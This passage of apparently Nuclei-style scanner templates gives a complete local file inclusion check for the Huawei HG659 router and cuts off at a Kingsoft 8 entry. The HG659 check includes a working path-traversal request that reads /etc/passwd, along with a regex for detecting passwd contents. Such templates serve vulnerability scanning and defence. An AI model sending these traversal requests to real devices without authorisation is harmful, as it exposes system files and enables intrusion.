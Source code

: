 ### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
  2. \[(font|extension|file)s\]
- condition - or
- part - body

**Type - status**

- status
  1. 200

---

# HUAWEI HG659 - Local File Inclusion

## Description

- HUAWEI HG659 is vulnerable to local file inclusion.
- severity - high
- tags - lfi,huawei

## Requests

- Method - GET

### URL

- {{BaseURL}}/lib///....//....//....//....//....//....//....//....//etc//passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- condition - and

**Type - status**

- status
  1. 200

---

# Kingsoft 8 - Local File Inclusion

## Description
